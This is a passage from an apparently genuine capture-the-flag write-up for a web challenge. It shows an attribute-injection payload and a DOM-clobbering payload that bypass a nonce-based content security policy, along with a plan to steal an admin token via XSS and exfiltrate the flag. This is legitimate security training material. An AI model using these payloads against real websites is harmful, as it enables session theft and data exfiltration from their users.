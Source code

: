 ```html
          ],
          'tree': [
              '<img class="bg-img" src="/static/img/tree.png"></img>'
          ]
     }
</script>
```
Let's try to do another injection:
I used the `edit and resend` feature of firefox and changed bg to something that escapes the `value` parameter and removed the `Content-Length` header to force firefox to create a new one.
@import "new.png"
After a reload:
```PHP
<!-- set bg color -->
<input type="hidden" id="bg" value="A"BBBB">
```
The injection worked without a problem.

New Plan:
 1. use the xss on stage1 to get the token
 2. use fetch with `POST` to set the background to inject a script element
 3. exfiltrate the flag

But can we use script tags in `stage2`?!
Here is the CSP:
```HTML
Content-Security-Policy: script-src 'nonce-6BGntpS3POL60qMZ9bj1X47CzA0=' 'unsafe-inline' 'strict-dynamic'; base-uri 'none'; object-src 'none';
```

And the output of `CSP evaluator`:
@import "csp2.png"
It says it is safe.
We can't use the `JSONP` trick, because we need the nonce.


`background.js` writes our content into the page:
```js
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});
```
The function indexes `backgrounds` with our value and appends the result to the body. We can use `DOM clobbering` to let the script append controlled content. We just have to corrupt the script element that creates the `backgrounds` variable and create a tag with attribute `id=backgrounds`.

here the data of the `POST` request
```html
bg="><a id=backgrounds><!--
```
And after a reload:
```js
> console.log(backgrounds)
a#backgrounds
​
accessKey: ""
​
[...]
​
innerText: "\nCSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}"
​
[...]
```
And since we can chose the name of the index we can even reflect the Flag back again.
```js
> console.log(backgrounds["innerText"])


```